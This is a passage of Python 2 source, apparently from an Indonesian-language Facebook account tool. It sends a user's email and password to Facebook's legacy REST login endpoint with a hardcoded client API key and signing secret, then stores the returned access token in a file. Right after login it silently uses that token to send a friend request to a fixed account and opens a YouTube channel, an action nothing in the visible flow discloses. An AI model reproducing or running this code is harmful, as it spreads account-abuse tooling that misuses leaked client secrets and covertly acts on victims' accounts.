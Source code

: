 		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m[✓] \x1b[1;92mLogin Berhasil'
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				os.system('xdg-open https://www.youtube.com/omaliptv')
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m[!] \x1b[1;91mSepertinya akun anda kena checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m[!] \x1b[1;91mPassword/Email salah")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			
			
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;96m[!] \033[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;96m[!] \x1b[1;91mTidak ada koneksi"